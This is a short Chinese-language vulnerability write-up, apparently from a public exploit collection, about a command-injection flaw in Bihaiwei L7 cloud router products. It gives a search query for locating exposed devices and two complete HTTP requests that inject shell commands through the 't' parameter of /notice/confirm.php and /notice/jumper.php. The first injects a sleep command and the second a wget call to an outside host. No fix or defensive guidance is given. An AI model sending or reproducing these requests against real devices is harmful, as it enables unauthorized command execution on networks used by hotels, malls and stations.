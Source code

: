 # 碧海威 L7多款产品confirm存在命令执行漏洞

# 一、漏洞简介
碧海威L7网络产品是为酒店、度假村、商场和车站等商用无线管理者独身订造的专用网络设备。设备具备路由、防火墙、流控、无线AC控制器、微信认证等多项功能。碧海威 L7多款产品confirm存在命令执行漏洞

# 二、影响版本
+ 碧海威 L7云路由

# 三、资产测绘
```plain
product="碧海威科技-L7云路由"
```

![1717872509836-9d8192e8-eb1d-418e-b136-d7e256390d0d.png](./img/mHd0RhkHaJqo_UPI/1717872509836-9d8192e8-eb1d-418e-b136-d7e256390d0d-319239.png)

# 四、漏洞复现
```plain
GET /notice/confirm.php?t=;sleep%203 HTTP/1.1
Host: 
Cookie: SESSID=e2cc8cfb14aa1d77ffcfc93204a1d57b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1717873640214-f81c5977-3acf-4091-84f5-157642413565.png](./img/mHd0RhkHaJqo_UPI/1717873640214-f81c5977-3acf-4091-84f5-157642413565-272740.png)

```plain
GET /notice/jumper.php?t=;wget%20tadayzkvfq.dgrh3.cn HTTP/1.1
Host: 
Cookie: SESSID=e2cc8cfb14aa1d77ffcfc93204a1d57b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1719303279808-613fbf12-e772-469f-9dfb-1bf1c3d53d44.png](./img/mHd0RhkHaJqo_UPI/1719303279808-613fbf12-e772-469f-9dfb-1bf1c3d53d44-161786.png)



> 更新: 2024-06-27 09:15:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nsgae82bubkkmg4k>